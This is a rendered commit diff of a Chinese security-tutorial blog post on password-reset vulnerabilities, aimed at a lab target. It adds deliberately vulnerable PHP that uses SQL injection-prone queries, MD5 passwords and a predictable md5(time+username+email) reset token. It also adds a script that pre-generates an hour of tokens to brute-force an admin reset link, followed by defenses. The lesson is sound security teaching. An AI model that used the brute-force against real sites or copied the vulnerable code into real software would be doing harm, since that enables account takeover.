

Before and after one commit to JWlovelearning/JWlovelearning.github.io, a Jekyll site: the page built from _posts/2023-10-10-post.md, in a window 1280 px wide and 1400 px high, scrolled down 702 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 2038 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2023-10-10-post.md

````diff
--- a/_posts/2023-10-10-post.md
+++ b/_posts/2023-10-10-post.md
@@ -23,19 +23,197 @@
 
 ## 密码找回漏洞源码分析
 ```
+<?php
+include 'init.php';
+//token创建规则
+function create_pass($username,$email){
+	$token=md5(time().$username.$email);
+	return $token;
+}
+echo ' <meta charset="UTF-8">';
 
+//输入邮箱并忘记密码
+if($_GET['c']=='forget'){
+	$username= trim($_POST['username']);
+	$re=mysql_query("select * from member where username='{$username}'");
+	$row = mysql_fetch_array($re);
+	$_email = $row['email'];
+	if($row){
+		echo "<form method='post' action='?c=email'>";
+		echo "用户{$row['username']}存在  请输入用户的邮箱";
+		echo "<input type='text' name='email'/>";
+		echo "<input type='hidden' name='username' value='{$row['username']}'/>";
+		echo "<input type='submit' value='发送key'/></form>";
+	}
+}
+
+//查询用户邮箱并创建token
+if($_GET['c']=='email'){
+	$username= trim($_POST['username']);
+	$re=mysql_query("select * from member where username='{$username}'");
+	$row = mysql_fetch_array($re);
+	$email= trim($_POST['email']);
+	if($email == $row['email']){
+		$token=create_pass($row['username'],$row['email']);
+		mysql_query("update member set token='{$token}' where id='{$row['id']}'");
+		echo "密码已发送又邮件，请登录邮箱修改密码";
+	}else{
+		echo "邮箱错误 请填写对应的邮箱";
+	}
+}
+
+//根据创建的token修改用户密码
+if($_GET['c']=='send'){
+	$token = trim($_GET['token']);
+	$re = mysql_query("select * from member where token='{$token}'");
+	$row = mysql_fetch_array($re);
+	if($row){
+		echo "<form method='post' action='?c=pass'>";
+		echo "输入你要修改的密码 ";
+		echo "<input type='text' name='password'/>";
+		echo "<input type='hidden' name='token' value='{$token}'/>";
+		echo "<input type='submit' value='修改密码'>";
+	}
+}
+
+//成功修改密码
+if($_GET['c']=='pass'){
+	$token = $_POST['token'];
+	$password =md5(trim($_POST['password']));
+	$re = mysql_query("update member set password ='{$password}' where token = '{$token}'");
+	if($re){
+		echo "修改成功";
+	}else{
+		echo "修改失败";
+	}
+}
+
+//用户登录界面
+if($_GET['c']=='login'){
+	echo '<form method="post" action="?c=main">';
+	echo '用户 <input type="text" name="username"><br>';
+	echo '密码 <input type="password" name="password"><br>';
+	echo '<input type="submit" value="登录">';
+	echo '</form>';
+}
+
+//用户是否正确登录
+if($_GET['c']=='main'){
+	$username = $_POST['username'];
+	$password = md5($_POST['password']);
+	$re = mysql_query("select * from member where username='{$username}' and password='{$password}'");
+	$row = mysql_fetch_array($re);
+	if($row){
+		echo "{$row['username']} 登录成功";
+	}else{
+			echo "帐号或密码失败";
+		}
+}
+
+//用户账号查询并找回
+if(empty($_GET['c'])){
+echo '<form method="post" action="?c=forget">';
+echo '<label>请输入你要查询的用户</label>';
+echo '<input type="text" name="username">';
+echo '<input type="submit" value="找回密码">';
+echo '</form>';
+}
+?>
 ```
 
-
++ 从源码中发现生成token的这个函数是可预测——时间加上账号和密码进行 md5加密：
+```
+function create_pass($username,$email){
+$token=md5(time().$username.$email);
+return $token;
+}
+```
 ## 密码找回漏洞攻击
 
-+ BP抓包：
++ 用户账号查询并找回：
 
+    ![用户查询](/style/image/image22.png)
 
-+ 测试查看后台验证码：
++ 输入邮箱并忘记密码：
 
+    ![邮箱输入](/style/image/image23.png)
 
-+ 穷举攻击：
+    + 这里服务端查找admin用户邮箱：
+
+        ![已存在邮箱](/style/image/image24.png)
+
+    + 查询用户邮箱并创建token:
+
+        ![创建token](/style/image/image25.png)
+
+        ![更新token](/style/image/image26.png)
+
+    + 根据生成的token去更新密码
+
++ 之前源码分析说过,生成token的这个函数可以预测，当用户名和邮箱都正确，即可即可得到token —— md5(当前时间戳+用户名+邮箱)：
+
+    + 当前时间戳：time()函数:
+
+        ```
+        <?php
+        echo time()
+        ?>
+        ```
+
+        ![时间戳](/style/image/image27.png)
+
+    + time是每一秒都会改变 https://tool.lu/timestamp/
+
+        ![时间戳转换](/style/image/image28.png)
+
++ 思路：
+
+    在提交 key 的之前，生成一分钟或者一个小时以内的 token， 用脚本
+    生成的token去访问每一个链接:http://靶场ip/forget.php?c=send&token=任意token ; 假如脚本生成的存在对应的 token 就可以修改密码。
+
+    + 提交key前,生成一小时的 token脚本:
+
+        ```
+        <?php
+        function create_pass($username,$email){
+            $token=md5(time().$username.$email);
+            return $token;
+        }
+        for($i=1;$i<=3600;$i++){
+            $timex= create_pass('admin','moon@moonsec.com');
+            write_file($timex."\n");
+            echo $i."\r\n";
+            sleep(1);
+        }
+        function write_file($c){
+            fwrite(fopen("time.txt", "a+"),$c);
+        }
+        ?>
+        ```
+
+        ![脚本token生成](/style/image/image29.png)
+
+        + 提交key后可关闭脚本token的生成并查看：
+
+            ![提交key](/style/image/image30.png)
+
+            ![关闭脚本并查看btoken](/style/image/image31.png)
+
+    + 访问修改密码链接并抓包：
+
+        ![抓包](/style/image/image32.png)
+
+        + 用脚本token遍历访问获取准确token：
+
+            ![遍历攻击](/style/image/image33.png)
+
+        + token 的验证：
+
+            ![token验证](/style/image/image34.png)
+
+### 题外话
+
+这个密码找回漏洞还有其他漏洞，如果获取到的token一直不变，可以一直修改密码，可以自行尝试！
 
 ## 防御
 1. 验证码爆破的，从验证码有效期和请求次数进行限制；
@@ -51,5 +229,6 @@
 6. 非常重要的一点：上线前一定要经过安全测试！！
 
 3.	在一段时间内的次数进行限定，超过无效。
+
 ## Reference
 [网络安全渗透测试—[常规漏洞挖掘与利用篇16]—[密码找回漏洞与测试]](https://blog.csdn.net/qq_45555226/article/details/122792043?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522169687209616800186565049%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=169687209616800186565049&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-122792043-null-null.nonecase&utm_term=%E5%AF%86%E7%A0%81%E6%89%BE%E5%9B%9E&spm=1018.2226.3001.4450)
````
